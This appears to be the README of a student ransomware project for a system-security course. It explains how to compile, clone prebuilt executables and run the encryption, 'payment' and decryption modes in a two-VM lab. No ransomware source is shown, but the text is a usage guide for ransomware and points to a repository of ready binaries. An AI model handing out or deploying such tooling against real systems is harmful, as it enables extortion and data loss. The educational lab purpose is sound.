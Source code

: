 # Ransomware Project
> by Aurélien and Alexandre

As part of our studies in system security at Henallux, we have to realize a ransomware

## Installation

**Make sure you have the OpenSSL library installed on your machines**
```shell
user@hostname$ sudo apt-get install libssl-dev
```
You must have 2 virtual machines (victim and server). Put **ransom** files into victim VM and the **server** files into server VM.

* Victim VM has IP address 192.168.10/24
* Server VM has IP address 192.168.20/24

On each VMs, run the following command to clone the repository:
```shell
user@hostname$ git clone https://github.com/Asb023/ransomware.git
```
**PS :** You will have direct access to the executable files by cloning this GitHub repository so no need to recompile the files

## Compilation of ransom.c and server.c
**On Victim machine :**
```shell
gcc -Wall -o ransom ransom.c ransomlib.c -lcrypto
```
**On Server machine :**
```shell
gcc -o server server.c
```
## Execution : server

```shell
user@hostname$ ./server
```
**PS :** Run the server before starting the encryption
## Execution : ransom

### Encryption

```shell
user@hostname$ ./ransom -e [path]
```
- ***-e*** : Ransomware encryption mode
- ***[path]*** : Start path of encryption [char *]

### Payment

```shell
user@hostname$ ./ransom -pay
```
- ***-pay*** : Payment mode

**Warning :** Without running this command, you will not be able to decrypt!

### Decryption
```shell
user@hostname$ ./ransom -d [path] [key] [iv]
```
- ***-d*** : Ransomware decryption mode
- ***[path]*** : Start path of encryption [char *]
- ***[key]*** : AES-256-CBC symetric key in hexadecimal [char *] - optional parameter
- ***[iv]*** : Initializing vector in hexadecimal [char *] - optional parameter

**PS :** If you pay the ransom, you can execute this without filling in the key and the iv.
### Help

```shell
user@hostname$ ./ransom -usage
```
- ***-usage*** : Display the ransomware help

## Execution : server

```shell
user@hostname$ ./server
```
